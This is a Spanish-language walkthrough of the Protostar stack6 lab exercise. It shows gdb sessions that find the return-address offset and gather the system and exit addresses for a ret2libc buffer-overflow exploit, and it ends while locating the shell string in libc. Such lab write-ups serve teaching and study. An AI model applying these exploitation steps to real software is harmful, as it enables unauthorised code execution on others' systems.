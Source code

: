 ```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'* 76 + 'BBBBCCCCDDDDEEEEFFFFGGGG' )" > /tmp/pattern
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack6
(gdb) disas getpath
... Muchas instrucciones :V
0x080484f8 <getpath+116>:	leave
(gdb) b *0x080484f8
(gdb) run < /tmp/pattern
Breakpoint alcanzado!
(gdb) c
Continuing.
Program received signal SIGSEGV, Segmentation fault. 0x43434343 in ?? ()
```
0x43 son las C, asi que despues de 80 "A" (76 +4) está el eip.
Para este ejercicio se usará la técnica de ret2libc ya que no se puede saltar a la pila (le metemos la direccion 0xbffff69c que es algo despues del eip)

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'* 80 + '\x9c\xf6\xff\xbf' )"| ./stack6
input path please: bzzzt (0xbffff69c)
```
Para hacer ret2libc se tiene que conseguir estas tres direcciones y pasarselas como input:
> **RET2LIBC:** offset + función(&system) + retorno(&exit) + argumentos("bin/sh") 

Como hemos visto en la seccion de [estructura de un binario](https://github.com/CUCUxii/CUCUxii.github.io/blob/main/Binarios/Estructura%20de%20un%20binario.md) Se le pasa al eip la dirección de la función system que es la que nos interesa ahora, una vez alli, sabemos que
una función tiene un trozo de memoria donde está primero la dirección de retorno y luego los argumentos. 

1. Se crea la pila con los arguemntos, que usa la función la funcion system("bin/sh")
2. Se borran estos argumentos de la pila con *LEAVE* 
3. Queda la direccion de retorno (a donde va cuando acaba) que se pasa al eip -> *POP EIP*

¿Por tanto de dónde sacamos estas tres cosas?

 * Dirección de "system"

```console
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack6
(gdb) run
input path please: AAAA
got path AAAA
(gdb) p &system
$1 = 0xb7ecffb0 <__libc_system>
```
* Dirección de "exit"

```console
(gdb) p &exit
$2 = 0xb7ec60c0 <*__GI_exit>
```
 * String "bin/sh"

```console
(gdb) b *0x080484f8
(gdb) run
input path please: AAAA
got path AAAA
Breakpoint alcanzado!
(gdb) info proc map
Start Addr   End Addr       Size     Offset objfile
...
0x8049000  0x804a000     0x1000          0   /opt/protostar/bin/stack6
...  
0xb7e97000 0xb7fd5000   0x13e000          0   /lib/libc-2.11.2.so -> La primera vez que sale esto (0xb7e97000)
0xb7fd5000 0xb7fd6000     0x1000   0x13e000   /lib/libc-2.11.2.so
```